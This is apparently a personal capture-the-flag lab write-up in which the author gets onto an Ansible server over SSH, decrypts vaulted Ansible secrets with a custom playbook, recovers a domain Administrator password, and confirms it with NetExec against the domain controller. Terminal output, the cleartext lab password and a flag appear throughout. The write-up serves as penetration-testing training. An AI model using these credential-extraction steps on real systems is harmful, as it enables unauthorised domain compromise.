





if

```
PORT    STATE SERVICE REASON         VERSION
22/tcp  open  ssh     syn-ack ttl 64 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 02:25:d3:98:90:ee:4b:8a:cd:9b:ae:c6:18:f4:35:bb (RSA)
|_ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDWiuQ34U3A9dZDyjSuokq8S0s2+FVRpoI0PwaC6NcRgnVBXK7/zJzPPHFAsPH47yS81PpArkCDQm8WjFvp212uybcT6s60cCLKY4gGT5MidsUq1kVan4gohllWPWcfovG4zEr832zT/CP4n0KXne2L/nEPkNRWxggnWDsWXKpbwfMV4+/oA4/XoR0/ZD4kcVysgmT7z5DdQ0fsLzomt1INSYIBxX/Ce3dHexi8Psl+E5K3Spm8MdOtA/uhZXSZhEdcVK4xt1S2YXPIh0L8c9kS3ir1jjvEGSGcWA9Qd5e6QKFzL7b05AvIYKAgg48431zkR4AOxb6LxBU9bJ7W/Xy7
111/tcp open  rpcbind syn-ack ttl 64 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=6/24%OT=22%CT=%CU=%PV=Y%G=N%TM=66798F64%P=x86_64-pc-linux-gnu)
SEQ(SP=106%GCD=1%ISR=109%TI=I%CI=I%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)
```

&nbsp;

# BACK on track

I am wondering if the user of James.week can login to this machine? I mean he is part of the Linux Admins might be that this will actually work?

Seems like no:



I think we need to go back to what we have so far:



Now we have the ansible password and I know that this machine is on the ansible.cyber.local. Here I was a bit too fast and when last time I tried to use James.pick credentials to login via SSH I wrote the wrong user


You see damn me i used James.peck and not james weeks and now we are in!

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/Ansible]
└─# ssh james.weeks@ansible.cyber.local           
(james.weeks@ansible.cyber.local) Password:
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-170-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro
D3V\james.weeks@d3webal:~$
```

&nbsp;

# Attacking the ansible

We know from the devnote that we need to extract the ansible password from it's playbooks! We can see the flag saved under /ansible on the root path:

```
D3V\james.weeks@d3webal:/Ansible$ cat flag.yml 
$ANSIBLE_VAULT;1.1;AES256
34353338366166613363376436626430343234646439363237363632356336613033623038386362
3437653632343832306637656231646564616265656264350a306530646631333261623461396135
64636361316237313334373865303933393165313737633830656262353632633432343761363966
3466363632393034640a393730643534326461363434336461303231623035376564316430396134
36393231313763663034303631323165313638396566623534663365303666363639346464376661
6239633436633765363634393132646534643762326633396539
D3V\james.weeks@d3webal:/Ansible$ cat inventory.yml 
d3v:
  children:
    d3dc:
      hosts:
        d3dc.d3v.localD3V\james.weeks@d3webal:/Ansible$
```

And this should be easy, if what Chat-gpt says...



Seems like we don't have permission?

```
D3V\james.weeks@d3webal:/Ansible$ ansible-vault  decrypt ./flag.yml  -vvv
ansible-vault 2.9.27
  config file = /etc/ansible/ansible.cfg
  configured module search path = [u'/home/james.weeks/.ansible/plugins/modules', u'/usr/share/ansible/plugins/modules']
  ansible python module location = /usr/lib/python2.7/dist-packages/ansible
  executable location = /usr/bin/ansible-vault
  python version = 2.7.18 (default, Jul  1 2022, 12:27:04) [GCC 9.4.0]
Using /etc/ansible/ansible.cfg as config file
Vault password: 
ERROR! Unexpected Exception, this is probably a bug: [Errno 13] Permission denied: '/Ansible/flag.yml'
```

But if I copy the file locally I can decrypt it:



And now we can just open the file and get another flag baby!

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/Ansible]
└─# cat flag.yml                                                                                                                  
Cyb3rN3t1C5{An$!bl3_3ncrypt!0n}
```

But then looking around seems like a password for WINRM for Administrator@d3v.local is saved on the machine??

```
D3V\james.weeks@d3webal:/Ansible$ cat group_vars/d3v.yml 
---
#winrm options
ansible_user: Administrator@D3V.LOCAL
ansible_password: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          63363635373431386163616636666139336266336165623733316437326432303732393535346666
          6437356362333338333331396438333933613036313732630a613238666466383434343966613065
          36333336306663666537646362316366376131633566643961343032373063613861333263636661
          6231386131643236310a336633323533623630336637396538383137616532643432613432323964
          6362
ansible_connection: winrm
ansible_port: 5985
ansible_winrm_transport: kerberos
ansible_winrm_operation_timeout_sec: 2700
ansible_winrm_read_timeout_sec: 2800D3V\james.weeks@d3webal:/Ansible$
```

I will save it locally and try to decrypt it manually:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/Ansible]
└─# cat d3v.yml      
#winrm options
ansible_user: Administrator@D3V.LOCAL
ansible_password: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          63363635373431386163616636666139336266336165623733316437326432303732393535346666
          6437356362333338333331396438333933613036313732630a613238666466383434343966613065
          36333336306663666537646362316366376131633566643961343032373063613861333263636661
          6231386131643236310a336633323533623630336637396538383137616532643432613432323964
          6362
ansible_connection: winrm
ansible_port: 5985
ansible_winrm_transport: kerberos
ansible_winrm_operation_timeout_sec: 2700
ansible_winrm_read_timeout_sec: 2800
```

It is clear we need to export the password part and decrypt it, we can't do in the whole file since the file is in cleartext but it is using a hardcoded password vaulted.



Exporting to a file called ansible_password.yml

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/Ansible]
└─# cat ansible_password.yml 
ansible_password: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          63363635373431386163616636666139336266336165623733316437326432303732393535346666
          6437356362333338333331396438333933613036313732630a613238666466383434343966613065
          36333336306663666537646362316366376131633566643961343032373063613861333263636661
          6231386131643236310a336633323533623630336637396538383137616532643432613432323964
          6362
```

This will match the standard structure we found for the flag!

Now this will not work so apparently chat-gpt asked me to do so.

Create a new playbook that will extract the password from the previous file:

```
# extract_password.yml
---
- name: Extract and use encrypted password
  hosts: localhost
  gather_facts: no
  vars_files:
    - d3v.yml

  tasks:
    - name: Display decrypted password
      debug:
        msg: "The decrypted password is: {{ ansible_password }}"
```

And now we have the cleartext credentials, hurra!

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/Ansible]
└─# ansible-playbook --ask-vault-password extract_password.yml
Vault password: 
[WARNING]: No inventory was parsed, only implicit localhost is available
[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'

PLAY [Extract and use encrypted password] ****************************************************************************************************************************************

TASK [Display decrypted password] ************************************************************************************************************************************************
ok: [localhost] => {
    "msg": "The decrypted password is: i@V@36hbW"
}

PLAY RECAP ***********************************************************************************************************************************************************************
localhost                  : ok=1    changed=0    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
```

And indeed it works baby!

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/Ansible]
└─# NetExec ldap 10.9.30.10 -u "Administrator" -p "i@V@36hbW"                                            
SMB         10.9.30.10      445    D3DC             [*] Windows 10 / Server 2016 Build 14393 x64 (name:D3DC) (domain:d3v.local) (signing:True) (SMBv1:False)
LDAP        10.9.30.10      389    D3DC             [+] d3v.local\Administrator:i@V@36hbW (Pwn3d!)
```

I feel comfortable we can move on!

&nbsp;

&nbsp;

&nbsp;

&nbsp;